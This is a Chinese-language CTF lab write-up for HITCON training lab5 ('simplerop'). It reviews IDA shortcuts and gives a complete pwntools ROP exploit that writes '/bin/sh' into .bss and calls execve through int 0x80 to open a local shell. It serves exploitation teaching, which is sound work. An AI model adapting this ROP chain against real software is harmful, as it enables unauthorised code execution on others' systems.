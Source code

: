 ### lab5

这一题提示了你要用ROP。

回顾一下IDA快捷键：

- g快速跳转到某一个地址
- alt+T：搜索string
- shift+f12：查看字符串
- ctrl+s：定位各个段
- alt+B：二进制搜索【hex view中】——勾选find all occurences
  - 本题的int 80h系统调用，可以alt+b搜索`80CD`得到
  - CD 80为int 80h的二进制编码【0x80在高地址，0xCD在低地址】

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab41.png)

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab43.png)

![](C:\Users\asus\spidermana.github.io\assets\img\hitconlab42.png)

本题通过shift+f12查看全局字符串并没有看到/bin/sh或者system函数等

**exp：**因此通过read函数将/bin/sh写入bss段【re.bss()】，再通过int 80调用execve函数【功能号=11=0xb】

通过`ROPgadget --binary simplerop --only "pop|ret"`得到ROP链

```python
from pwn import *
from struct import pack
context.log_level = 'debug'
context.terminal = ['terminator','-x','bash','-c']
bin = ELF('simplerop')

cn = process('./simplerop')

cn.recv()

p_read = 0x0806CD50
p_eax_ret = 0x080bae06
p_edx_ecx_ebx_ret = 0x0806e850
int_80 = 0x80493e1
# Padding goes here
p = ''
p += 'a'*0x1c + 'bbbb'
p += p32(p_read) + p32(p_edx_ecx_ebx_ret) + p32(0) + p32(bin.bss()) + p32(0x10) #read(0,bss首地址,0x10), ret到rop链，pop掉栈上的参数
p += p32(p_edx_ecx_ebx_ret) + p32(0) + p32(0) + p32(bin.bss())
p += p32(p_eax_ret) + p32(0xb) #ebx=/bin/sh str地址
p += p32(int_80) # int 0x80 ，功能号eax=0xb 。得到execve("/bin/sh")
print hex(len(p))

cn.sendline(p)
cn.sendline('/bin/sh\0')  
cn.interactive()
```
